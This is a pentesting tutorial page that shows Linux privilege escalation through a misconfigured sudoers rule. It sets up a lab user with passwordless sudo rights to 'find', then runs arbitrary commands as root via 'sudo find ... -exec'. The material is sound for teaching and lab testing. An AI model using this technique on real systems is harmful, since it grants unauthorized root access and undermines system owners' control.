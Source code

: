 ```yaml
---
title: "Misconfigured SUDO Permissions"
layout: single
permalink: /library/pentesting/linux-vulnerabilities/misconfigured-sudo-permissions/
author_profile: false
classes: wide
header:
    image: _pages/library/pentesting/linux-vulnerabilities/linux.jpg
sidebar:
    nav: "linux-vulnerabilities"
---
```


## Introduction

'sudo' is a fundamental Linux binary that grants users the ability to execute commands with the elevated privileges of the root user. The configuration for 'sudo' is maintained in the /etc/sudoers file, where specific permissions are defined, dictating which commands a user is authorized to run with root privileges.

Typically, when a user employs 'sudo' to execute a command, they are prompted to provide their password as a security measure. However, system administrators have the flexibility to customize the behavior through the /etc/sudoers file. This file may be configured to allow a user to run specific binaries with root privileges without the need for a password prompt.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
user@user-vm:~$ sudo adduser notroot
```
![Add 'notroot' user](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-sudo-permissions/add_notroot_user.png)

#### 2. Modify the /etc/sudoers file to allow the created user to execute 'find' command using 'sudo', without being prompted for the password 

Run visudo to edit the */etc/sudoers* file:

```bash
user@user-vm:~$ sudo visudo
```

On the sudoers file, add line:
```bash
# <chosen_user> ALL=(root) NOPASSWD: <sample_binary>
notroot ALL=(root) NOPASSWD: /usr/bin/find
```
![Add 'notroot' user to sudoers for find command](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-sudo-permissions/add_notroot_sudo_permission.png)


Above command allows 'notroot' user to use 'find' as root without password prompt.

### **Exploitation**

#### 1. Switch or Login as 'notroot'

```bash
notroot@user-vm:~$ 
```

#### 2. Verify the commands the user can run with SUDO

```bash
notroot@user-vm:~$ sudo -l
```
![Verify the user's sudo commands](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-sudo-permissions/verify_user_sudo_commands.png)

Above result shows 'root' permission to run '/usr/bin/find' without password.

#### 3. Exploit: Execute any command within 'sudo find' command

```bash
notroot@user-vm:~$ touch <file_name>
notroot@user-vm:~$ sudo find <file_name> -exec <command> \;
```
Commands run using find would be elevated to root, without asking password.

![Execute any command](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-sudo-permissions/execute_any_command.png)


## Video Demonstration

{% include video id="F6aMPdU597g" provider="youtube" %}


## Reference
https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/


